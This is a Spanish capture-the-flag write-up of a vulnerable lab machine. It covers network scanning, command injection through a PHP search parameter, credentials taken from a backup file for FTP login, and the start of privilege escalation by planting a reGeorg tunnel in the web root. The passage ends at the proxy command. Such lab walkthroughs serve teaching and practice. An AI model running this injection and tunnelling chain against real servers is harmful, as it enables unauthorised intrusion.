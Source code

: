 Primero Obtenemos la IP de nuestra maquina atacante:
```
ifconfig
```

Utilizando " netdiscover " procedemos a encontrar los equipos conectados en la red:
```
sudo netdiscover -r 192.168.1.0/24
```

Una ves encontrada la IP de la maquina victima comenzamos a realizar un escaneo de puertos, utilizaremos " nmap ":
```
sudo nmap -sV -A -T5 192.168.1.30
```
- ![Nmap](imagenes/nmap.png)
- En el escaneo nos damos cuenta que tiene abierto el uerto 80 corriendo un servicio we con apache y el puerto 21 corriendo un servicio de FTP.

Procedemos a verificar si existe un sitio WEB de la maquina entramos al navegador con el siguiente link:
```
http://192.168.1.30/
```
- Nos redirige al siguiente sitio en el cual nos damos cuenta que contiene una carpeta que nos redirecciona a la página web:
	- ![Site Folder](imagenes/sitefolder.png)
	- http://192.168.1.30/site/
	- ![Página Inicio](imagenes/paguina_inicio.png)

Revisamos el código de la página y encontramos un buscador en el siguiente link: http://192.168.1.30/site/busque.php?buscar=
pero ademas utilizando la herramienta " dirsearch " realizamos una enumeración de directorios para encontrar directorios y archivos:
```
dirsearch -u http://192.168.1.30/
```

Utilizando el link " http://192.168.1.30/site/busque.php?buscar=ls%20-al%20.. " recorriendo una carpeta atras y buscando archivos ocultos nos damos cuenta que podemos interactuar con comandos en el servidor, encontrando con un .backup:
- VER CÓDIGO PHP: view-source:http://192.168.1.30/site/busque.php?buscar=cat busque.php
- ![Link Buscar](imagenes/link_buscar.png)
De igual manera con al herramienta que utilizamos para enumerar los directorios " dirsearch " desucbrimos que detecto un archivo oculto seria el .backup:
- ![Dirsearch](imagenes/dirsearch.png)

Podemos ingresar por medio de la url al " .backup " y veremos unas contraseñas las cuales podemos ver si nos conectamos por medio de ftp:
- USERNAME: jangow01
- PASSWORD: abygurl69
```
http://192.168.1.30/.backup
```
- ![Credenciales Backup](imagenes/credenciales_backup.png)

Nos conectamos por medio de ftp:
```
ftp 192.168.1.30
Connected to 192.168.1.30.
220 (vsFTPd 3.0.3)
Name (192.168.1.30:hunter): jangow01
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Entrando a la ruta " /home/jangow01 " y haciendo el siguiente comando:
```
ls -al
```
- Encontramos un archivo user.txt el cal contiene la flag, podemos descargar el " user.txt "
```
	 get user.txt
```
- y una ves descargarda podemos ver su contenido con " cat ":
```
	cat user.txt
```
- FLAG: d41d8cd98f00b204e9800998ecf8427e
- ![Flag User](imagenes/flagUSER.png)

AHORA ES MOMENTO DE ELEVAR PRIVILEGIOS:
Revisando la herramienta " [**reGeorg**](https://github.com/sensepost/reGeorg?ref=ciberseguridad.blog) " subiremos un tunel, crearemos un proxy:
- ya que tenemos acceso por ftp utilizando la terminal o filezilla llevaremos " tunnel.nosocket.php " que se encuentra en la carpeta de la herramienta a la maquina victima en la carpeta " /temp "
- ![Filezilla](imagenes/filezilla.png)
- Procedemos a copiarlo a la siguiente ruta desde la web:
	- http://192.168.1.30/site/busque.php?buscar=cp%20-v%20/tmp/tunnel.php%20/var/www/html/site/tunnel.php
- Una ves subido podemos utilizar ahora " reGeorg ":
```
python reGeorgSocksProxy.py -p 8080 -u http://192.168.1.30/site/tunnel.php
```










